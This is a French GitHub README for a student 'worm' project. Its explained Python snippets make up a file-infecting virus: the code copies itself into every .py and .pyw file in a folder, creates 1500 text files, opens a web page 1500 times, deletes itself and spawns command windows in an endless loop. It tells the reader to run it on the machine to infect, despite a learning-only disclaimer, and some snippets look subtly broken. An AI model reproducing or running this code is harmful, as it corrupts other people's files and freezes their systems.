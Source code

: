 # Ver de 0xM@rt

[![forthebadge](https://forthebadge.com/images/badges/made-with-python.svg)](https://forthebadge.com)

Dans le cadre de ma formation j'ai du développer un ver

le but du Ver informatique et de se reproduit sur plusieurs ordinateurs en utilisant un réseau informatique. 


## Pour commencer

Faite attention ce logiciel a été créé dans le but d'apprentissage il ne faut pas l'utiliser a des fin malvaillante  


### Pré-requis

Il faut executer le fichier ver.py et avoir un dossier test ou le vers pourras ce dupliquer.


### Installation

* _Pour_ _Windows_ :

  Pour installer python il faut se rendre sur https://www.python.org/downloads/

* _Pour_ _Ubuntu_ :

  Pour installer python il faut utiliser la commande sudo apt-get install python

## Démarrage

Pour lancer le logiciel il faut juste taper *Python3 ver.py* sur la machine a infecter


## Explication du code 


* _Pour_ _ver.py_ :

--------------------------Les imports---------------------

Sys fournit un accès à certaines variables utilisées et maintenues par l'interpréteur

glob recherche tous les chemins correspondant à un motif particulier selon les règles utilisées par le shell Unix

itertools fonctions créant des itérateurs pour boucler efficacement

subeprocess permet de lancer de nouveaux processus

time permet fournir différentes fonctions liées au temps 

webbrowser permet d'intéragir avec les navigateurs web 


----------------------Traitement------------------------

Tout d'abords nous avons des commentaires # VIRUS SAYS HI! et # VIRUS SAYS BYE! qui sont utile pour délimité les parties du code pour la réplication

```python
#Le virus charge son propre code
virus_code = []
with open(sys.argv[0], 'r') as f:
    lines = f.readlines()

EstInfecte = False
for line in lines:
    if line == "# VIRUS SAYS HI!":
        EstInfecte = True
    if not EstInfecte:
        virus_code.append(line)
    if line == "# VIRUS SAYS BYE!\n":
        break
 ```
 
 
Le code suivant permet d'injecter du code dans les fichier en ;py et .pyw
 
```python
python_files = glob.glob('*.py') + glob.glob('*.pyw')

for file in python_files:
    with open(file, 'r') as f:
        file_code = f.readlines()
    
    infected = False
    
    # ne pas injecter le code s'il y'a le VIRUS SAYS HI
    for line in file_code:
        if line == "# VIRUS SAYS HI!\n":
            infected = True
            break
    
    # injecter le code s'il n'y'a pas le VIRUS SAYS HI
    if not infected:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)
        
        with open(file, 'w') as f:
            f.writelines(final_code)
            
print ("Virus en cours d'execution")
```
--------------------Ajout personnel dans le virus---------------------


Création de plusieurs fichier txt et affichage de dans un navigateur de photo de chat

```python
path = str(os.path.join(r"C:\Users\User\Documents\Virus"))
print(f)


#------------------ création de plein de fichiers texte dans un dossier et affichage de plein de photo de chat sur le navigateur------------------------------
for t in range(1500):
    file = open(path +"\\test_%d.txt" %t , "w")
    file.write("let's go !!!%d"%t)
    file.close()
    
    webbrowser.open_new("https://genrandom.com/cats/")
    [''.join(x for x in t) for t in itertools.product("abcdefghijklmnobqrstuvwxyz",repeat=1)]
    
    
```


Le virus ce supprime tout seul après execution
```python
#-----------------------------------auto supression du virus---------------------------
file_path = r"C:\Users\User\Documents\Virus\virus.py"

if os.path.isfile(file_path):
os.remove(file_path)
print("fichier supprimé")
```

Le virus lance des cmd en boucle 

```python
#--------------------------------Boucle infini qui lance des CMD------------------------------
while True:
    os.system('start cmd')

# VIRUS SAYS BYE!\n

time.sleep(10)
```



## Auteurs
Listez le(s) auteur(s) du projet ici !
* **0xM@rt** _alias_ [@0xM@rt](https://github.com/0xMart)



